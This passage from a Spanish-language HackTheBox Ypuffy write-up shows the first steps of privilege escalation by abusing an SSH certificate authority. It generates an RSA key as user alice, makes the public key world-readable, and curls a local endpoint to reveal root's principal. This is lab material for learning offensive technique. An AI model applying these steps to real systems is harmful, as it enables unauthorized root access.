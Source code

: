Esto significa que cualquier usuario puede preguntar por la lista de principals, y usarlo para otorgar accesos teniendo los privilegios adecuados hacia el archivo CA (doas). Y eso es precisamente lo que haremos.

# Abusing SSH CA

## Creating new pair of rsa key

Comenzamos por generar unas llaves RSA como alice:

``` text
ypuffy$ ssh-keygen -t rsa
Generating public/private rsa key pair.
Enter file in which to save the key (/home/alice1978/.ssh/id_rsa): /tmp/.miu/meh
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in /tmp/.miu/meh.
Your public key has been saved in /tmp/.miu/meh.pub.
The key fingerprint is:
SHA256:h/p3lA1K73dZtbbhz3UhGChRcIZ7wMpilfHW1f2FCi0 alice1978@ypuffy.hackthebox.htb
The key's randomart image is:
+---[RSA 2048]----+
|     .+o++ o. .. |
|     o.+= E .....|
|    o .+oo + .  o|
|   o o...o. =   o|
|  . .   S..+ = .o|
|       . .. + o+o|
|      .    o  o B|
|       .  . o .=+|
|        .. . . .+|
+----[SHA256]-----+
ypuffy$ ls -lah
total 28
drwxrwxrwx  2 alice1978  wheel   512B Jan  9 03:15 .
drwxrwxrwt  8 root       wheel   512B Jan  9 03:10 ..
-rw-------  1 alice1978  wheel   1.6K Jan  9 03:14 meh
-rw-r--r--  1 alice1978  wheel   413B Jan  9 03:14 meh.pub
ypuffy$ chmod 777 meh.pub
```

Al final hice accesible mi llave publica meh para cualquiera.

## Security zone of root

Como queremos saber en que zona de seguridad esta el usuario root, por lo que usamos localmente la validación que aprendimos por sshd y ejecutamos como cualquier usuario curl

``` text
ypuffy$ /usr/local/bin/curl 'http://127.0.0.1/sshauth?type=principals&username=root'
3m3rgencyB4ckd00r
```
